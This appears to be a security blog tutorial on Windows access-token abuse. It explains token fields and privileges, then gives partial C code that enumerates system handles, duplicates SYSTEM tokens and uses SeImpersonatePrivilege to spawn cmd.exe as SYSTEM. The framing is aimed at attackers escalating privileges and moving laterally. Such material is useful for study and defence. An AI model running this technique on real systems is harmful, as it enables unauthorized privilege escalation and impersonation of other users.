

Playing with Tokens
An access token in Windows is a data structure used by the operating system to represent the security context of a process or thread. It contains information about the identity and privileges of the user or entity associated with the process or thread. Access tokens are essential for managing access control and ensuring security within the Windows environment.
Abuse of certain tokens allows an attacker to either escalate privileges on the system or even impersonate users to move laterally across the network.
Key features of an Access Token:
- User Identity: Identifies the user account associated with the token, usually by a Security Identifier (SID).
- Privileges: Lists the special rights or abilities assigned to the user or the process.
SeCreateTokenPrivilege
SeAssignPrimaryTokenPrivilege
SeLockMemoryPrivilege
SeIncreaseQuotaPrivilege
SeTcbPrivilege
SeSecurityPrivilege
SeTakeOwnershipPrivilege
SeLoadDriverPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeProfileSingleProcessPrivilege
SeIncreaseBasePriorityPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeShutdownPrivilege
SeDebugPrivilege
SeAuditPrivilege
SeSystemEnvironmentPrivilege
SeChangeNotifyPrivilege
SeUndockPrivilege
SeManageVolumePrivilege
SeImpersonatePrivilege
- Groups: Specifies the groups to which the user belongs (e.g.,
Administrators,Users,Guests). - Default Owner: Indicates the default owner for objects created by the process or thread.
- Security Descriptors: Defines how access to objects (like files or registry keys) is granted or denied based on the token.
- Token Type: Indicates whether the token is a
primary token(used by a process) or animpersonationtoken (used by a thread to assume a different security context temporarily). - Source Information: Contains details about the source of the token, such as the process or service that created it.
- Session ID: Links the token to the user's logon session.
If we achieve a user with SeImpersonationPrivilege which normally is enabled on services accounts, or we already pwned a local Administrator, we can Impersonate a logged on user.
We need SE_DEBUG_NAME SeDebugPrivilege in order to see all process information of the machine, to do that we should need a high privilege session.
BOOL SetPrivilege(LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
HANDLE hToken;
TOKEN_PRIVILEGES tp;
LUID luid;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)) {
printf("OpenProcessToken() failed!\n");
return FALSE;
}
if ( !LookupPrivilegeValue(
NULL, // lookup privilege on local system
lpszPrivilege, // privilege to lookup
&luid ) ) // receives LUID of privilege
{
printf("LookupPrivilegeValue error: %u\n", GetLastError() );
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
if ( !AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES) NULL, (PDWORD) NULL) ) {
printf("AdjustTokenPrivileges error: %u\n", GetLastError() );
return FALSE;
}
if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
printf("The token does not have the specified privilege.\n");
return FALSE;
}
return TRUE;
}
int main(int argc, char ** argv) {
if(SetPrivilege(SE_DEBUG_NAME, ENABLE)){
ListHandles();
}
return 0;
}
We want to list all the handles of the system. You can get more info on the following section:
NtDuplicateObject is used to create a handle that duplicate of the specified source handle, useful for query it.
typedef NTSTATUS (NTAPI * t_NtDuplicateObject)(
HANDLE SourceProcessHandle,
HANDLE SourceHandle,
HANDLE TargetProcessHandle,
PHANDLE TargetHandle,
ACCESS_MASK DesiredAccess,
ULONG Attributes,
ULONG Options
);
Once enumerated all the handlers we can filter ObjectTypeNumer to 0x5 to obtain all the tokens, remember we need to duplicate the handler in order to impersonate it.
#define HANDLE_TOKEN 0x05
...
if(handle.ObjectTypeNumber == HANDLE_TOKEN){
// Duplicate the handle to query it
hProc = OpenProcess(PROCESS_DUP_HANDLE | PROCESS_QUERY_INFORMATION, FALSE, handle.ProcessId);
if((pNtDuplicateObject(hProc, (void *) handle.Handle, GetCurrentProcess(), &dupHandle, 0, 0, DUPLICATE_SAME_ACCESS)) < 0){
continue;
}
if(ListHandleToken(dupHandle) == 1){
CloseHandle(dupHandle);
break;
}
CloseHandle(dupHandle);
}
At that moment we have all the access tokens of the system, we need two things, the owner or the context and the privileges.
GetTokenInformationfunction retrieves a specified type of information about an access token. The calling process must have appropriate access rights to obtain the information
BOOL GetTokenInformation(
[in] HANDLE TokenHandle,
[in] TOKEN_INFORMATION_CLASS TokenInformationClass,
[out, optional] LPVOID TokenInformation,
[in] DWORD TokenInformationLength,
[out] PDWORD ReturnLength
);
TOKEN_INFORMATION_CLASS: TokenUser and TokenPrivileges.
These will retrieve these token structures:
typedef struct _TOKEN_USER {
SID_AND_ATTRIBUTES User;
} TOKEN_USER, *PTOKEN_USER;
typedef struct _TOKEN_PRIVILEGES {
DWORD PrivilegeCount;
LUID_AND_ATTRIBUTES Privileges[ANYSIZE_ARRAY];
} TOKEN_PRIVILEGES, *PTOKEN_PRIVILEGES;
Finally with the help of LookupAccountSid and LookupPrivilegeNameA we are going to be able to translate the SID_AND_ATTRIBUTES and LUID_AND_ATTRIBUTES structure to printable ones.
So, knowing the context of the user, and having SeImpersonatePrivilege rights on the token we should be able to impersonate a user, which can be easily filtered on the following code.
int ListHandleToken(HANDLE hDup){
TOKEN_USER * tInfo;
DWORD dwSize = 0;
TOKEN_PRIVILEGES * tPriv;
DWORD dwSize2 = 0;
STARTUPINFOW si = { sizeof(STARTUPINFOW) };
PROCESS_INFORMATION pi;
// QUERY TOKEN_USER
GetTokenInformation(hDup, TokenUser, NULL, 0, &dwSize);
tInfo = (TOKEN_USER *)malloc(dwSize);
if(GetTokenInformation(hDup, TokenUser, tInfo, dwSize, &dwSize)==0){
printf("Error 0x%x\n",GetLastError());
}
TCHAR name[256], domain[256];
DWORD nameSize = 256, domainSize = 256;
SID_NAME_USE sidType;
if (LookupAccountSid(NULL, tInfo->User.Sid, name, &nameSize, domain, &domainSize, &sidType)) {
printf("%s\\%s\n",domain,name);
// TOKEN from NT AUTHORITY\SYSTEM
if(strcmp(name, "SYSTEM") == 0){
// QUERY TOKEN_PRIVILEGES
GetTokenInformation(hDup, TokenPrivileges, NULL, 0, &dwSize2);
tPriv = (TOKEN_PRIVILEGES *)malloc(dwSize2);
if(GetTokenInformation(hDup, TokenPrivileges, tPriv, dwSize2, &dwSize2)==0){
printf("Error 0x%x\n",GetLastError());
}
for(int i=0; i<tPriv->PrivilegeCount; i++){
LUID_AND_ATTRIBUTES priv = tPriv->Privileges[i];
char privName[256];
DWORD size = sizeof(privName);
if (LookupPrivilegeNameA(NULL, &priv.Luid, privName, &size)) {
printf("\tPriv - > %s\n", privName);
// SeImpersonatePrivilege Token
if(strcmp(privName, "SeImpersonatePrivilege")==0){
ImpersonateLoggedOnUser(hDup);
if(CreateProcessWithTokenW(hDup, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)){
printf("[+] CMD launched!\n");
RevertToSelf();
return 1;
}else{
printf("[-] Error-> 0x%x\n", GetLastError());
}
}
}
}
}
}
return 0;
}
